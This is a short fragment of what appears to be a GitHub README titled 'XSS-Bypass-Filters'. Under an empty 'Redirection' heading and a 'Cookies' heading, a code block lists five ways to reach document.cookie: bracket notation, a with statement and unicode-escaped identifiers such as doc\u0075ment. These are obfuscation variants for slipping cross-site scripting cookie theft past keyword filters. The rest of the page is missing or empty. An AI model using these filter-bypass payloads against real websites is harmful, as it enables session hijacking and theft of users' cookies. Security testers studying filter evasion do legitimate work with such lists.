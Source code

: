 # XSS-Bypass-Filters

### Redirection

### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
```


